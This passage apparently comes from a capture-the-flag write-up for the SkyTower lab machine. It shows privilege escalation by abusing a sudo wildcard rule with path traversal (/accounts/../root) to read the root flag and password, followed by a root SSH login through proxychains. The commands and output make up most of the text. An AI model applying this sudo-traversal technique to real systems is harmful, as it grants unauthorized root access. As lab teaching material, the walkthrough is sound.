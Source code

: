 The user sara is allowed to execute the cat and ls commands as sudo in the directory /accounts/, we will take advantage of this to get root.

```bash
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```

Using sudo we can list the /root directory and read the flag that contains the password for the user root.

```bash
sara@SkyTower:~$ sudo /bin/ls /accounts/../root
flag.txt
sara@SkyTower:~$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```

Finally we login via SSH as user root.

```bash
root@kali:~$ proxychains ssh root@192.168.179.175 '/bin/bash -i'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Dynamic chain  ...  192.168.179.175:3128  ...  192.168.179.175:22  ...  OK
root@192.168.179.175's password: 
bash: cannot set terminal process group (-1): Invalid argument
bash: no job control in this shell
root@SkyTower:~# id
id
uid=0(root) gid=0(root) groups=0(root)  
```
